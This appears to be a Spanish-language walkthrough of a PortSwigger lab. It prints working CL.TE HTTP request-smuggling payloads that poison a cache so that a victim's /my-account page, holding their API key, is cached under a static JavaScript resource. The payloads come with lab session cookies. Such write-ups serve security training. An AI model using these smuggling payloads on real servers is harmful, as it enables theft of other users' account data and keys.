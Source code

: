 ### Lab Description

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is caching static resources.

To solve the lab, perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache. Then retrieve the victim user's API key from the cache and submit it as the lab solution. You will need to wait for 30 seconds from accessing the lab before attempting to trick the victim into caching their API key.

You can log in to your own account using the following credentials: `wiener:peter`

### Metogología
Primero procedemos a testear si es posibile utilizar nuestras dos cabeceras preferidas:
~~~
POST / HTTP/1.1
Host: Portsqiger-lab
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
~~~
El time out significa que es CL.TE, el front-end está priorizando el content-length y el backend da un time out porque nunca recibe un 0 que indique que la solicitud terminó.
La primera request dió 200, la segunda me dió 404, con esto confirmamos que es vulnerable al pipeling
~~~
POST / HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Transfer-Encoding: chunked

0

GET /qwert HTTP/1.1
Content-Length: 3
Content-Type: application/x-www-form-urlencoded

x=
~~~

### Analizando el flujo de la web
El objetivo es capturar una api, así que busco en los endpoints del HTTP history de burpsuite para encontrar una ruta vulnerable, ya que es muy importante probar en cada endpoint. en el propio posteo de comentarios, una de las cabeceras es el cookie session, pero si la concatenamos a nuestra petición maliciosa tendremos un error, es que esta cabecera está hecha para que el post reciba un ID, so give up, you don't have fucking chance. Por otro lado, la solicitud que se hace al recargar la página tambien tiene un cookie session, pero está no está visible en la espuesta del servidor. Tenemos una nueva página que es la de inicio de sesión, nos conectamos con las credenciales que nos decían en la descripción, wiener y contraseña, peter. La solicitud es esta:
```
GET /my-account?id=wiener HTTP/1.1
Host: 0afd00b803c4e49c806dc60300bf003d.web-security-academy.net
Cookie: session=cg2VMMwCnksIhnkmgT18a8P12a3VsiPt
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0afd00b803c4e49c806dc60300bf003d.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i
```

En la response nos muestra la clave de la API, lo cual la hace el objetivo perfecto, sin embargo en la ruta tenemos un id que complica las cosas "id=wiener" pero sacandolo la respuesta es válida.
Ahora solo nos hace falta una Esta solicitud por el contratio:
```REQUEST
GET /resources/js/tracking.js HTTP/2
Host: 0afd00b803c4e49c806dc60300bf003d.web-security-academy.net
Cookie: session=WxZgrPoWK4rPa4iuJeJoOrJUdQUPo6xz
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0afd00b803c4e49c806dc60300bf003d.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1
```
Esto es un static assets, el cual esta presente en casi todas las solicitudes de la página, para recargar la api
Nosotros queremos capturar ese Static assetss porque es cacheable. Entonces tenemos que renviar la pestaña de ataque varias veces
```
POST / HTTP/1.1
Host: 0afd00b803c4e49c806dc60300bf003d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: x
```
Porque X-Ingore y no un x: , en el body, bueno, el motivo es porque nosotros queremos capturar la ruta "/my-account" de la víctima, por eso enviamos la pestaña de ataque muchas veces, entre todas las request una será la indicada
Entonces ahora si le doy a resend al tracking
```
GET /resources/js/tracking.js HTTP/1.1
Host: 0afd00b803c4e49c806dc60300bf003d.web-security-academy.net
Cookie: session=WxZgrPoWK4rPa4iuJeJoOrJUdQUPo6xz
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Li nux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0afd00b803c4e49c806dc60300bf003d.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1
```
En realidad se carga la solicitud anterior, la indicada que queremos que se cargue:
```
POST / HTTP/1.1
Host: 0afd00b803c4e49c806dc60300bf003d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: xGET /resources/js/tracking.js HTTP/1.1
Host: 0afd00b803c4e49c806dc60300bf003d.web-security-academy.net
...
```
La cual tiene la cookie de la víctima que se recarga en la página de my-account, por lo que nos responderá con la página my-account
